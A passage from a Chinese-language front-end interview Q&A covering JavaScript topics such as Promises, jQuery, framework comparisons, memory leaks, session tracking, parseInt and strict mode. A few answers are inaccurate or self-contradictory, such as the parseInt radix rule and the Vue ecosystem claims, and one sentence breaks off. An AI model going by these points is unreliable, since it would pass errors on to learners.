
```js
// 创建一个 Promise 对象
var promise = new Promise(function (resolve, reject) {
  // 异步操作
  setTimeout(function () {
    var randomNum = Math.random();
    if (randomNum > 0.5) {
      resolve('Operation succeeded');
    } else {
      reject('Operation failed');
    }
  }, 1000);
});

// 使用 Promise 对象
promise
  .then(function (result) {
    console.log('Success:', result);
  })
  .catch(function (error) {
    console.log('Error:', error);
  })
  .finally(function () {
    console.log('Promise settled');
  });
```

在上面的示例中，我们创建了一个 Promise
对象，并在内部定义了一个异步操作。根据异步操作的结果，调用了 resolve 或
reject 方法来改变 Promise 的状态。然后使用 then
方法注册了成功时的回调函数，使用 catch 方法捕获了错误。最后，使用
finally 方法来注册一个在 Promise 完成后必定会执行的回调函数。

这样，我们就可以通过对 Promise 的状态进行判断和处理，来执行相应的操作。

### 24 你觉得 jQuery 源码有哪些写的好的地方

- `jQuery`的源码结构清晰，模块化的设计使得各个功能模块之间相互独立，易于维护和扩展。
- `jQuery`采用了很多优化技巧，例如使用惰性函数、缓存 DOM 查询结果、事件委托等，以提高性能和效率。
- `jQuery`提供了一致而强大的选择器功能，支持多种选择器语法，使得操作 DOM 元素更加灵活方便。
- `jQuery`提供了丰富的插件生态系统，使得开发者可以轻松扩展功能，且插件之间可以很好地兼容和组合使用。
- `jQuery`封装了跨浏览器的解决方案，解决了浏览器兼容性问题，使开发者可以更专注于业务逻辑而不用关心底层实现细节。
- `jQuery`提供了丰富的 DOM 操作方法和动画效果，使得开发者可以轻松实现复杂的交互效果。
- `jQuery`文档详细且易于理解，提供了丰富的示例和用法说明，方便开发者学习和使用。

总的来说， `jQuery` 源码在设计和实现上具有很多优秀的地方，使得它成为广泛应用的前端库之一。

以下是一个简单的示例代码，展示了 `jQuery` 源码中的一些优秀设计和实现：

```js
// 定义一个自执行的匿名函数，将window对象作为局部变量传入，避免作用域链查找
(function (window, undefined) {
  // 定义jQuery构造函数
  var jQuery = function (selector) {
    return new jQuery.fn.init(selector);
  };

  // 将原型对象简写为fn，提高代码效率
  jQuery.fn = jQuery.prototype = {
    // 初始化方法
    init: function (selector) {
      // ...
    },
    // 扩展的实例方法
    // ...
  };

  // 将jQuery的原型对象赋值给fn，实现链式调用
  jQuery.fn.init.prototype = jQuery.fn;

  // ...

  // 将jQuery绑定到全局对象window上，提供全局访问
  window.jQuery = window.$ = jQuery;
})(window);
```

这段示例代码展示了 `jQuery` 源码中的一些优秀设计和实现：

1.  使用自执行的匿名函数，将`window`对象作为局部变量传入，提高访问`window`对象的效率，同时避免全局污染。
2.  通过将原型对象简写为`fn`，提高代码效率，同时利用`init`方法作为构造函数，实现链式调用。
3.  使用原型继承机制，将`jQuery`的原型对象赋值给`fn`，使得实例对象可以直接访问`jQuery`的方法。全局变量访问`jQuery`的功能。

这些设计和实现使得 `jQuery` 具有清晰的结构、高效的代码和易于使用的特性，成为广泛应用的前端库。

### 25 谈谈你对 vue、react、angular 的理解

继续对比 Vue、React 和 Angular 的优缺点对比：

**Vue.js:**

- 优点：
  - 简单易学：Vue.js 具有简单易学的特点，可以快速上手，适合小型项目或初学者。
  - 响应式数据绑定：Vue.js 使用双向数据绑定机制，能够实现数据的自动更新和同步，提高开发效率。
  - 轻量灵活：Vue.js 的核心库很小，可以根据需要逐渐引入插件，具有灵活性和可扩展性。
  - 生态系统丰富：Vue.js 拥有庞大的社区和生态系统，有大量的第三方库和组件可供使用。
- 缺点：
  - 生态系统相对较小：相对于 React 和 Angular，Vue.js 的生态系统规模相对较小，可能在某些方面的资源和支持较少。

**Angular:**

- 优点：

  - 完整的功能集：Angular 是一个完整的前端框架，提供了路由、模块化、依赖注入等功能，适用于大型和复杂的应用程序开发。
  - 强大的模板系统：Angular 具有强大的模板系统，支持丰富的指令和组件，使开发者可以更轻松地构建复杂的用户界面。
  - 强大的工具支持：Angular 提供了强大的开发工具和调试工具，使开发和调试更加便捷。

- 缺点：

  - 学习曲线较陡峭：相对于 Vue.js 和 React，Angular 的学习曲线较陡峭，需要掌握更多的概念和技术。
  - 复杂性较高：由于 Angular 是一个完整的框架，它的复杂性较高，对于简单项目可能会显得过于臃肿。

**React:**

- 优点：

  - 高性能：React 使用虚拟 DOM 技术，能够提高应用程序的性能，减少 DOM 操作。
  - 组件化开发：React 倡导组件化开发，使得代码更加模块化、可维护和可复用。
  - 大而活跃的社区：React 拥有庞大而活跃的社区，有大量的第三方库和组件可供使用。
  - 前后端通用：React 可以进行服务器端渲染，使得应用程序具有更好的性能和搜索引擎优化。

- 缺点：
  - 学习曲线较陡峭：React 使用了 JSX 语法和一些独特的概念，对于新手来说可能需要一定的学习成本。

### 26 Node 的应用场景

**特点：**

1.  **基于事件驱动和非阻塞 I/O：**
    Node.js 采用事件驱动的编程范式，通过异步非阻塞的 I/O 模型实现高效的并发处理，能够处理大量的并发连接。

2.  **单线程：**
    Node.js 使用单线程处理请求，避免了传统多线程模型中线程切换的开销，提高了处理请求的效率。

3.  **基于 V8 引擎：** Node.js 使用 Google
    Chrome 浏览器中的 V8 引擎解释执行 JavaScript 代码，具有高性能和高效的特点。

4.  **跨平台：**
    Node.js 可以在多个操作系统上运行，如 Windows、Linux、Mac 等。

**优点：**

1.  **高并发性能：**
    Node.js 的事件驱动和非阻塞 I/O 模型使其能够处理大量并发请求，适用于构建高性能的网络应用。

2.  **快速开发：**
    Node.js 使用 JavaScript 语言，具有统一的开发语言，使得前端开发人员可以轻松上手进行服务器端开发。

3.  **丰富的模块生态系统：**
    Node.js 拥有庞大的模块生态系统，提供了丰富的第三方模块和工具，可以快速构建复杂的应用程序。

4.  **轻量和高效：**
    Node.js 具有较小的内存占用和快速的启动时间，适合部署在云环境或资源有限的设备上。

**缺点：**

1.  **单线程限制：**
    Node.js 使用单线程处理请求，如果有长时间运行的计算密集型任务或阻塞操作，会导致整个应用程序的性能下降。

2.  **可靠性低：**
    Node.js 在处理错误和异常方面相对较弱，一旦代码某个环节崩溃，整个应用程序都可能崩溃，需要仔细处理错误和异常情况。

3.  **不适合 CPU 密集型任务：**
    由于 Node.js 的单线程特性，不适合处理需要大量计算的 CPU 密集型任务，这类任务可能会阻塞事件循环，影响整个应用程序的性能。

**Node.js 的应用场景主要包括以下几个方面：**

1.  **服务器端开发：**
    Node.js 在服务器端开发中表现出色。由于其事件驱动、非阻塞的特性，适合处理高并发的网络请求，可以快速构建高性能的网络应用程序，如 Web 服务器、API 服务器、实时聊天应用等。

2.  **实时应用程序：**
    基于 Node.js 的实时应用程序能够实现双向通信，例如实时聊天应用、协作工具、多人游戏等。Node.js 的事件驱动模型和非阻塞 I/O 使得处理大量并发连接变得更加高效。

3.  **命令行工具：**
    Node.js 提供了丰富的 API 和模块，使得开发命令行工具变得简单和高效。通过 Node.js 可以编写自定义的命令行工具，用于执行各种任务、自动化流程和脚本处理等。

4.  **构建工具：**
    Node.js 可以用于构建前端的构建工具和任务执行器，如 Grunt 和 Gulp。这些工具利用 Node.js 的模块化和文件操作能力，帮助开发者自动化地处理代码的编译、压缩、打包等任务。

5.  **代理服务器：**
    基于 Node.js 可以构建高性能的代理服务器，用于代理请求、路由转发、负载均衡等。Node.js 的非阻塞 I/O 使得代理服务器能够同时处理大量的并发请求。

总的来说，Node.js 适用于需要处理高并发、实时性要求高、需要构建高性能网络应用的场景。它在 Web 开发、实时应用、命令行工具等领域都有广泛的应用。

### 27 谈谈你对 AMD、CMD 的理解

`AMD` （Asynchronous Module Definition）和 `CMD` （Common Module
Definition）是用于浏览器端的模块加载规范。它们的目标都是解决模块化开发的问题，提供了异步加载模块的机制，以提高网页的性能和加载速度。

**AMD（Asynchronous Module Definition）**

- `AMD`是由`RequireJS`提出的一种模块加载规范。
- `AMD`规范采用异步加载模块的方式，在使用模块之前，需要先定义模块的依赖关系，然后通过回调函数来使用模块。这种方式适用于浏览器环境，可以避免阻塞页面的加载。
- `AMD`规范使用`define`函数来定义模块，可以指定模块的依赖关系和回调函数。在回调函数中可以获取依赖模块，并进行相应的操作。
- 示例代码：

```js
define(['module1', 'module2'], function (module1, module2) {
  // 使用module1和module2进行操作
});
```

**CMD（Common Module Definition）**

- `CMD`是由`SeaJS`提出的一种模块加载规范。
- `CMD`规范与`AMD`规范类似，也采用异步加载模块的方式。但与`AMD`不同的是，`CMD`规范在使用模块之前不需要先定义依赖关系，而是在使用时才进行模块的加载。
- `CMD`规范使用`define`函数来定义模块，可以在回调函数中使用`require`函数来加载依赖模块。
- 示例代码：

```js
define(function (require) {
  var module1 = require('module1');
  var module2 = require('module2');
  // 使用module1和module2进行操作
});
```

总体来说， `AMD` 和 `CMD` 都是用于浏览器端的模块加载规范，目的是解决模块化开发的问题。它们的区别在于模块定义和加载的时机不同， `AMD` 在定义时就指定依赖关系并加载模块，而 `CMD` 在使用时才加载模块。根据具体的项目需求和团队的开发习惯，可以选择适合的规范进行模块化开发。

### 28 那些操作会造成内存泄漏

除了之前提到的操作，以下是更多可能导致内存泄漏的操作，并附带示例代码：

**1. 定时器未清理：**

```js
function startTimer() {
  setInterval(() => {
    // 定时操作
  }, 1000);
}

// 没有清理定时器，导致内存泄漏
```

解决方法：在不需要定时器时，使用 `clearInterval` 或 `clearTimeout`

清理定时器。

**2. 异步操作未完成导致回调函数未执行：**

```js
function fetchData(callback) {
  // 异步操作，例如 AJAX 请求或数据库查询
  // 忘记调用回调函数，导致内存泄漏
}

// 示例中没有调用 fetchData 的回调函数
```

解决方法：确保异步操作完成后，调用相应的回调函数，或使用 `Promise` 或
`async/await` 等方式管理异步操作的状态。

**3. DOM 元素未正确移除：**

```js
function createDOMElement() {
  const element = document.createElement('div');
  // 在页面中插入 element，但没有移除

  // 该函数可能被多次调用，导致大量无用的 DOM 元素存在于内存中
}
```

解决方法：在不需要的时候，使用 `removeChild` 或其他方法将 DOM
元素从页面中移除。

**4. 未释放闭包中的引用：**

```js
function createClosure() {
  const data = 'sensitive data';

  setTimeout(() => {
    console.log(data);
  }, 1000);

  // 闭包中引用了外部的 data 变量，导致 data 无法被垃圾回收
}
```

解决方法：在不需要使用闭包中的外部变量时，确保取消引用，例如将闭包中的引用设置为
`null` 。

除了之前提到的操作，以下是更多可能导致内存泄漏的操作，并附带示例代码：

**5. 未正确释放事件监听器：**

```js
function addEventListener() {
  const element = document.getElementById('myElement');
  element.addEventListener('click', () => {
    // 事件处理程序
  });

  // 没有移除事件监听器，导致内存泄漏
}
```

解决方法：在不需要监听事件时，使用 `removeEventListener`

方法将事件监听器移除。

**6. 大量数据缓存导致内存占用过高：**

```js
function cacheData() {
  const data = fetchData(); // 获取大量数据
  // 将数据存储在全局变量或其他长久存在的对象中

  // 数据缓存过多，占用大量内存资源
}
```

解决方法：及时清理不再需要的数据缓存，或使用适当的数据存储方案，例如使用数据库等。

**7. 循环引用：**

```js
function createCircularReference() {
  const obj1 = {};
  const obj2 = {};

  obj1.ref = obj2;
  obj2.ref = obj1;

  // obj1 和 obj2 彼此引用，导致无法被垃圾回收
}
```

解决方法：确保循环引用的对象在不再需要时被解除引用，例如将相应的属性设置为
`null` 。

**8. 未正确释放资源：**

```js
function openResource() {
  const resource = openSomeResource();

  // 忘记关闭或释放 resource，导致资源泄漏
}
```

解决方法：在不再需要使用资源时，确保关闭、释放或销毁相应的资源，例如关闭数据库连接、释放文件句柄等。

### 29 web 开发中会话跟踪的方法有哪些

在 Web 开发中，常见的会话跟踪方法包括：

**1. Cookie：**

- 使用 HTTP Cookie 来跟踪会话状态，将会话信息存储在客户端。

示例代码：

```js
// 设置Cookie
document.cookie =
  'sessionID=abc123; expires=Sat, 31 Dec 2023 23:59:59 GMT; path=/';

// 读取Cookie
var sessionID = document.cookie;
```

**2. Session：**

- 使用服务器端的会话管理机制，在服务器端存储会话数据，客户端通过会话 ID 来进行访问。

示例代码（使用 Express.js 框架）：

```js
// 在服务器端设置Session
app.use(
  session({
    secret: 'secretKey',
    resave: false,
    saveUninitialized: true,
  })
);

// 在路由处理程序中存储和访问Session数据
req.session.username = 'poetry';
var username = req.session.username;
```

**3. URL 重写：**

- 在 URL 中附加会话标识符来进行会话跟踪。

示例代码：

```
https://example.com/page?sessionID=abc123

```

**4. 隐藏 Input：**

- 在 HTML 表单中使用隐藏的输入字段来存储会话信息。

示例代码：

```html
<input type="hidden" name="sessionID" value="abc123" />
```

**5. IP 地址：**

- 根据客户端的 IP 地址进行会话跟踪，但这种方法可能受到共享 IP、代理服务器等因素的影响。

示例代码（使用 Node.js）：

```js
var clientIP = req.headers['x-forwarded-for'] || req.connection.remoteAddress;
```

### 30 JS 的基本数据类型和引用数据类型

**基本数据类型：**

- `undefined`: 表示未定义或未初始化的值。
- `null`: 表示空值或不存在的对象。
- `boolean`: 表示逻辑上的`true`或`false`。
- `number`: 表示数值，包括整数和浮点数。
- `string`: 表示字符串。
- `symbol`: 表示唯一的、不可变的值，通常用作对象的属性键。

**引用数据类型：**

- `object`: 表示一个复杂的数据结构，可以包含多个键值对。
- `array`: 表示一个有序的、可变长度的集合。
- `function`: 表示可执行的代码块，可以被调用执行。
- `Set`
- `Map`
- `WeakMap`
- `WeakSet`
- `Date`
- `RegExp`

基本数据类型在赋值时是按值传递的，每个变量都有自己的存储空间，修改一个变量不会影响其他变量。而引用数据类型在赋值时是按引用传递的，多个变量引用同一个对象，修改一个变量会影响其他变量。需要注意的是， `null` 和 `undefined` 既是基本数据类型，也是特殊的值，表示不同的含义。

### 31 介绍 js 有哪些内置对象

JavaScript 中有许多内置对象，用于提供各种功能和方法，常见的内置对象包括：

1.  `Object`: 所有对象的基类。
2.  `Array`: 用于表示和操作数组的对象。
3.  `Boolean`: 代表布尔值 `true` 或 `false`。
4.  `Number`: 代表数字，用于执行数值操作和计算。
5.  `String`: 代表字符串，用于处理和操作文本数据。
6.  `Date`: 用于处理日期和时间。
7.  `RegExp`: 用于进行正则表达式匹配。
8.  `Function`: 用于定义和调用函数。
9.  `Math`: 提供数学计算相关的方法和常量。
10. `JSON`: 用于解析和序列化 JSON 数据。
11. `Error`: 用于表示和处理错误。
12. `Map`: 一种键值对的集合，其中键可以是任意类型。
13. `Set`: 一种集合数据结构，存储唯一的值。
14. `Promise`: 用于处理异步操作和编写更优雅的异步代码。
15. `Symbol`: 代表唯一的标识符。

这些内置对象提供了丰富的功能和方法，可以满足不同的编程需求。开发人员可以利用这些对象来处理数据、执行操作、处理错误等。

### 32 说几条写 JavaScript 的基本规范

下面是几条常见的写 JavaScript 的基本规范：

1.  使用驼峰命名法（camel
    case）命名变量、函数和对象属性，例如： `firstName` , `getUserData()` ,
    `myObject.property`

2.  使用大写字母开头的驼峰命名法（Pascal
    case）命名构造函数或类，例如： `Person` , `UserModel`

3.  使用全大写字母和下划线命名常量，例如：`MAX_VALUE`, `API_KEY`
4.  使用单行注释（`//`）或块注释（`/* */`）对代码进行注释，解释代码的用途和实现思路
5.  使用缩进（通常是四个空格或一个制表符）来表示代码块的层次结构，增加代码的可读性
6.  使用严格模式（`"use strict";`）来提高代码的安全性和效率，避免使用隐式全局变量
7.  尽量避免使用全局变量，封装代码到函数或模块中，使用局部变量来限制作用域，减少命名冲突
8.  在声明变量时，使用`let`或`const`来代替`var`，避免变量提升和作用域问题
9.  尽量避免使用隐式类型转换，使用严格相等运算符（`===`和`!==`）进行比较，避免类型不匹配的问题
10. 在使用条件语句（`if`、`else`）和循环语句（`for`、`while`）时，始终使用花括号来明确代码块的范围，避免歧义和错误
11. 使用单引号或双引号来表示字符串，保持一致性，推荐使用单引号
12. 尽量使用模板字符串来拼接字符串，避免使用字符串连接符（`+`）或复杂的字符串拼接操作
13. 使用数组和对象的字面量语法（`[]`和`{}`）来创建数组和对象，而不是使用构造函数，例如：`let arr = [1, 2, 3]`,
    `let obj = {name: 'poetry', age: 25}`

14. 对于长的逻辑语句或表达式，可以使用合适的换行和缩进来增加可读性，或者使用括号将其分成多行
15. 避免使用`eval()`函数和`with`语句，它们可能引起安全问题和性能问题

这些规范旨在提高代码的可读性、可维护性和一致性，促进团队协作和代码质量的提升。在编写 JavaScript 代码时，遵循这些规范可以帮助开发人员写出更优雅、健壮和易于

### 33 JavaScript 有几种类型的值

JavaScript 有以下几种类型的值：

1.  原始数据类型：

- `Undefined`：表示未定义的值。
- `Null`：表示空值。
- `Boolean`：表示布尔值，只有两个取值：`true`和`false`。
- `Number`：表示数字，包括整数和浮点数。
- `String`：表示字符串，用于表示文本数据。
- `Symbol`（ES6 新增）：表示唯一的、不可变的值。

1.  引用数据类型：

- `Object`：表示对象，是一种复合值，可以包含多个键值对。
- `Array`：表示数组，是一种有序的、可变的集合。
- `Function`：表示函数，可以执行特定的任务。
- `Date`：表示日期和时间。
- `RegExp`：表示正则表达式，用于匹配和处理字符串。
- `Error`：表示错误对象，用于捕获和处理异常情况。

原始数据类型存储在栈中，通过值的复制来进行赋值和传递。而引用数据类型存储在堆中，通过引用的方式进行赋值和传递，实际上传递的是指向堆中对象的引用地址。

注意：ES6 新增的 `Symbol` 类型是一种唯一的、不可变的数据类型，用于创建唯一的标识符，主要用于对象属性的键值。

### 34 eval 是做什么的

`eval()` 是 JavaScript 的一个全局函数，用于将传入的字符串作为 JavaScript
代码进行解析和执行。

其主要功能有以下几个方面：

1.  动态执行代码：`eval()` 可以将字符串作为 JavaScript
    代码进行执行，将字符串解析为可执行的 JavaScript
    代码。这样可以动态生成和执行代码，灵活性较高。

2.  计算字符串表达式：`eval()` 可以计算传入的字符串表达式并返回结果。
3.  解析 JSON：在某些情况下，可以使用 `eval()` 将 JSON 字符串解析为
    JavaScript 对象。但是需要注意，使用 `eval()` 解析 JSON
    字符串存在安全风险，因为它会执行传入的任意代码，可能导致恶意代码的注入。

需要注意的是，由于 `eval()` 执行的字符串会被解析和执行，因此在使用
`eval()`

时要格外小心，避免执行不可信的代码，以防止安全漏洞和性能问题。在大多数情况下，可以通过其他方式实现相同的功能，而不必使用
`eval()` 。

### 35 null，undefined 的区别

`null` 和 `undefined` 是 JavaScript 中表示空值或缺失值的两个特殊值。

**区别如下：**

1.  `undefined`表示变量声明了但没有被赋值，或者访问对象属性不存在时的默认返回值。

- 当变量被声明但未被赋值时，默认值为 `undefined`。
- 当访问对象的不存在属性时，返回值为 `undefined`。

2.  `null` 表示变量被赋予了一个空值，表示有一个对象，但该对象为空。

- 当想要明确表示一个变量为空对象时，可以将其赋值为 `null`。
- `null` 是一个特殊的对象值，表示对象为空，即不指向任何内存地址。

**总结：**

- `undefined` 表示缺少值或未定义的值，常见于变量声明但未赋值的情况。
- `null` 表示空对象，常见于显式地将对象赋值为空。

在使用条件判断时，要注意区分它们的差异。对于严格相等比较，推荐使用 `===`

来避免类型转换，以准确判断两者是否相等。

### 36 \[\"1\", \"2\", \"3\"\].map(parseInt) 答案是多少

**parseInt(str, radix)**

- 解析一个字符串，并返回`10`进制整数
- 第一个参数`str`，即要解析的字符串
- 第二个参数`radix`，基数（进制），范围`2-36`
  ，以 `radix` 进制的规则去解析 `str` 字符串。不合法导致解析失败

- 如果没有传`radix`
  - 当`str`以`0`开头，则按照`16`进制处理
  - 当`str`以`0`开头，则按照`8`进制处理（但是`ES5`取消了，可能还有一些老的浏览器使用）会按照`10`进制处理
  - 其他情况按照`10`进制处理
- `eslint`会建议`parseInt`写第二个参数（是因为`0`开始的那个`8`进制写法不确定（如`078`），会按照`10`进制处理）

```js
// 拆解
const arr = ['1', '2', '3'];
const res = arr.map((item, index, array) => {
  // item: '1', index: 0
  // item: '2', index: 1
  // item: '3', index: 2
  return parseInt(item, index);
  // parseInt('1', 0) // 0相当没有传，按照10进制处理返回1 等价于parseInt('1')
  // parseInt('2', 1) // NaN 1不符合redix 2-36 的一个范围
  // parseInt('3', 2) // 2进制没有3 返回NaN
});

// 答案 [1, NaN, NaN]
```

### 37 javascript 代码中的\"use strict\"; 是什么意思

`"use strict"` 是一种特定的指令（directive），用于告诉 JavaScript
解析器在解析代码时采用严格模式。它可以出现在 JavaScript
代码的顶部（全局严格模式）或函数体的顶部（函数级严格模式）。

使用严格模式的好处包括：

1.  消除了一些 JavaScript 的不安全操作，使代码更加安全。
2.  阻止使用一些不推荐或已废弃的语法和特性。
3.  强制执行更严格的语法和错误检查，减少潜在的错误。
4.  提高性能，某些优化措施只在严格模式下生效。

严格模式对一些错误和不合理的行为进行了修正，例如：

- 未声明的变量不能被使用。
- 不能对只读属性进行赋值。
- 函数的参数不能有重复的名称。
- 不能删除变量或函数。
- 不能使用八进制字面量（例如 `0123`）。
- 不能使用 `with` 语句。

要注意的是，启用严格模式可能会导致一些代码在非严格模式下不起作用，因为严格模式对语法和行为有更高的要求。因此，在使用严格模式之前，需要仔细测试和检查代码，确保代码在严格模式下正常运行。

示例：

```js
'use strict';

function myFunction() {
  // 函数级严格模式
  // ...
}

// 全局严格模式
```

上述代码中的 `"use strict"` 指令告诉 JavaScript
解析器在解析函数或全局代码时应该采用严格模式。

### 38 JSON 的了解

JSON（JavaScript Object
Notation）是一种轻量级的数据交换格式，以文本形式表示结构化的数据。它采用类似于
JavaScript
对象的键值对的方式来描述数据，易于阅读和编写，同时也便于机器解析和生成。

JSON 具有以下特点：

1.  **数据格式简单明确**：JSON 使用键值对（key-value
    pairs）的形式表示数据，使用大括号 `{}` 定义对象，使用方括号 `[]`

    定义数组，键和值之间使用冒号 `:` 分隔。

2.  **支持多种数据类型**：JSON 支持包括字符串、数字、布尔值、对象、数组和 null 在内的基本数据类型。
3.  **跨平台和语言**：JSON 是一种通用的数据交换格式，不依赖于特定的编程语言或平台，可以被各种编程语言解析和生成。

在 JavaScript 中，可以使用内置的 `JSON` 对象进行 JSON 字符串与 JavaScript
对象之间的转换。常用的方法有：

- `JSON.parse()`：将 JSON 字符串解析为 JavaScript 对象。
- `JSON.stringify()`：将 JavaScript 对象转换为 JSON 字符串。

示例：

```js
// JSON字符串转换为JSON对象
var jsonString = '{"name": "poetry", "age": 28, "city": "shenzhen"}';
var jsonObj = JSON.parse(jsonString);

// JSON对象转换为JSON字符串
var obj = {
  name: 'poetry',
  age: 28,
  city: 'shenzhen',
};
var jsonString = JSON.stringify(obj);
```

通过使用 JSON，我们可以方便地在不同的系统和平台之间传递和处理数据。它在
Web 开发中被广泛应用于前后端数据交互、API 接口设计等场景。

### 39 js 延迟加载的方式有哪些

延迟加载（Deferred
Loading）是一种优化网页性能的技术，可以延迟加载页面中的资源（如脚本、样式表、图片等），从而加快页面的初始加载速度。

以下是几种常见的 JavaScript 延迟加载的方式：

1.  **defer 属性**：将脚本标签的 `defer` 属性设置为
    `"defer"` ，使得脚本在页面完成解析时执行。例如： `<script src="script.js" defer></script>`

2.  **动态创建 script DOM**：通过 JavaScript 动态创建 `<script>`
    元素，并将其插入到页面中。这样可以控制脚本的加载时机，例如在页面加载完毕后再加载脚本

```js
var script = document.createElement('script');
script.src = 'script.js';
document.body.appendChild(script);
```

3.  **XmlHttpRequest 脚本注入**：使用 XMLHttpRequest 对象加载 JavaScript
    脚本，并将其注入到页面中。这种方式可以在页面加载过程中异步加载脚本。示例代码如下：

```js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'script.js', true);
xhr.onload = function () {
  if (xhr.status === 200) {
    var script = document.createElement('script');
    script.textContent = xhr.responseText;
    document.body.appendChild(script);
  }
};
xhr.send();
```

4.  **延迟加载工具**：使用第三方的延迟加载工具库，如
    `LazyLoad` ，可以更方便地管理和控制页面中的延迟加载资源。这些工具通常提供了更多的功能和配置选项，例如按需加载、懒加载、预加载等。

这些延迟加载的方式可以根据具体的需求和场景选择合适的方式来优化页面加载性能，提升用户体验。

### 40 同步和异步的区别

- 同步：浏览器访问服务器请求，用户看得到页面刷新，重新发请求, 等请求完，页面刷新，新内容出现，用户看到新内容, 进行下一步操作
- 异步：浏览器访问服务器请求，用户正常操作，浏览器后端进行请求。等请求完，页面不刷新，新内容也会出现，用户看到新内容

常见的异步操作包括 `网络请求` （Ajax）、 `定时器` （setTimeout、setInterval）、 `事件处理` 等。在这些异步操作中，任务的执行不会阻塞程序的其他部分，而是在后台进行，当任务完成时，会通过回调函数或事件来通知程序进行下一步操作。

> 总结：同步操作是按照顺序依次执行任务，阻塞程序的执行；异步操作是通过回调函数或事件触发来执行任务，不会阻塞程序的执行，提高了程序的并发性和响应性。在实际开发中，异步操作通常用于处理耗时操作和需要等待结果的任务，以提高程序的性能和用户体验。

### 41 defer 和 async

> - `defer` 并行加载 `js` 文件，会按照页面上 `script` 标签的顺序执行
> - `async` 并行加载 `js` 文件，下载完成立即执行，不会按照页面上 `script` 标签的顺序执行

**下面是更详细的解释：**

**defer**和**async**是用于控制 `<script>` 标签加载和执行的属性。

- **defer**
  属性用于延迟脚本的执行，即脚本会被并行下载，但会等到整个文档解析完成后再执行。多个带有 `defer` 属性的脚本会按照它们在文档中的顺序执行。这样可以确保脚本在操作 DOM 之前加载，避免阻塞页面的渲染。需要注意的是，只有外部脚本（通过 `src` 属性引入的脚本）才能使用 `defer` 属性。

```html
<script src="script1.js" defer></script>
<script src="script2.js" defer></script>
```

- **async**
  属性用于异步加载脚本，即脚本会被并行下载，并在下载完成后立即执行。多个带有 `async` 属性的脚本的执行顺序是不确定的，哪个脚本先下载完成就先执行。这样可以提高脚本的加载性能，但可能会导致脚本之间的依赖关系出现问题。同样，只有外部脚本才能使用 `async` 属性。

```html
<script src="script1.js" async></script>
<script src="script2.js" async></script>
```

需要注意的是， `defer` 和 `async` 属性只在外部脚本中生效，即通过 `src` 属性引入的脚本。如果脚本直接嵌入在 `<script>` 标签中，这两个属性不起作用。

选择使用 `defer` 还是 `async` 取决于脚本的加载和执行顺序的重要性。如果脚本之间有依赖关系，并且需要按照顺序执行，应使用 `defer` 。如果脚本之间没有依赖关系，且可以并行加载和执行，可以使用 `async` 来提高加载性能。

### 42 说说严格模式的限制

严格模式（Strict Mode）是 ECMAScript 5 引入的一种特殊模式，用于限制
JavaScript
代码中的一些不安全或不规范的语法，提供更严格的语法检查，减少一些怪异行为，并改善代码质量和可维护性。

**严格模式的一些限制包括但不限于：**

1.  变量必须先声明再使用，禁止隐式全局变量。
2.  函数的参数不能有同名属性，否则会报错。
3.  禁止使用 `with` 语句。
4.  不能对只读属性赋值，否则会报错。
5.  不能使用前缀 `0` 表示八进制数，否则会报错。
6.  不能删除不可删除的属性，不能删除变量，只能删除对象属性。
7.  `eval` 函数在其内部引入的变量不会影响外部作用域。
8.  `eval` 和 `arguments` 不能被重新赋值。
9.  `arguments` 不会自动反映函数参数的变化。
10. 不能使用 `arguments.callee` 和 `arguments.caller`。
11. 禁止 `this` 指向全局对象。
12. 不能使用 `fn.caller` 和 `fn.arguments` 获取函数调用的堆栈。
13. 增加了一些保留字，如 `protected`、`static` 和 `interface`。

使用严格模式可以提高代码的可靠性，减少意外错误和怪异行为。要启用严格模式，可以在脚本文件或函数体的开头加上
`'use strict';` 来指示 JavaScript 解析器以严格模式解析代码。

### 43 attribute 和 property 的区别是什么

> - `attribute` 是 `dom` 元素在文档中作为 `html` 标签拥有的属性；
> - `property` 就是 `dom` 元素在 `js` 中作为对象拥有的属性。
> - 对于 `html` 的标准属性来说， `attribute` 和 `property` 是同步的，是会自动更新的
> - 但是对于自定义的属性来说，他们是不同步的

`attribute` 和 `property` 是用于描述 DOM 元素的特性和属性的两个概念。

**区别如下：**

- `Attribute`（属性）是 DOM 元素在 HTML 文档中定义的特性，它可以在 HTML 标签上声明并存储相关信息。例如，`<div class="container">`中的`class`就是一个属性。在 JavaScript 中，可以通过`getAttribute`和`setAttribute`方法来获取和设置属性的值。

- `Property`（属性）是 DOM 元素作为对象的属性，用于访问和操作元素的状态和行为。例如，`document.getElementById('myElement').className`中的`className`就是 DOM 对象的属性。在 JavaScript 中，可以直接通过`.`运算符来访问和修改对象的属性。

**主要区别：**

1.  同步性：对于 HTML 标准属性来说，属性和特性是同步的，它们会相互影响和更新。但是对于自定义的属性，特性和属性之间是不同步的。
2.  值的类型：属性值是具体的数据类型，例如字符串、布尔值、数字等。而特性值始终是字符串。
3.  访问方式：属性可以通过直接访问对象的属性来获取和设置，而特性需要使用相关的方法（例如`getAttribute`和`setAttribute`）来访问和操作。

需要注意的是，大多数情况下，我们更常使用属性来操作 DOM 元素，因为它们更直观和方便。而特性主要用于处理自定义属性或一些特殊情况下的操作。

### 44 谈谈你对 ES6 的理解

ES6（ECMAScript
2015）是 JavaScript 的第六个主要版本，引入了许多新的语言特性和改进，以提升开发人员的效率和代码质量。以下是 ES6 的一些重要特性：

1.  **块级作用域**：引入`let`和`const`关键字，允许在块级作用域中声明变量，解决了变量提升和作用域污染的问题。
2.  **箭头函数**：使用箭头(`=>`)定义函数，简化了函数的书写，并且自动绑定了`this`。
3.  **模板字符串**：使用反引号（\`）包裹字符串，可以在字符串中使用变量和表达式，实现更灵活的字符串拼接和格式化。
4.  **解构赋值**：通过解构赋值语法，可以从数组或对象中提取值，并赋给对应的变量，简化了变量赋值的操作。
5.  **默认参数**：函数可以定义默认参数值，简化了函数调用时传参的操作。
6.  **扩展运算符**：使用三个点（`...`）进行数组和对象的展开操作，可以将一个数组或对象拆分为独立的元素，或者将多个数组或对象合并为一个。
7.  **Promise**：引入了`Promise`对象，用于更好地处理异步操作，解决了回调地狱的问题，并提供了更清晰的异步编程模式。
8.  **类和模块化**：ES6 引入了类的概念，可以使用`class`关键字定义类，实现了更接近传统面向对象编程的方式。同时，ES6 还提供了模块化的支持，可以使用`import`和`export`语法导入和导出模块。
9.  **模块化**：引入了模块化的概念，可以使用`import`和`export`语法导入和导出模块，提供了更好的代码组织和模块复用的方式。
10. **迭代器和生**成器\*\*：引入了迭代器和生成器的概念，可以通过自定义迭代器来遍历数据集合，并使用生成器函数来生成迭代器。
